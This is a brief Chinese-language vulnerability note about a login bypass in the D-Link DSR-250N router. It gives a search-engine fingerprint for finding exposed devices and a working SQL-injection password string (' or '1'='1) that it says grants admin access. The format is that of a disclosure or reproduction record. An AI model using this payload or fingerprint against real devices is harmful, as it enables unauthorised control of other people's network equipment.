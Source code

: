 # 

# D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## 网络测绘

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](./images/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](./images/202202162223338.png)
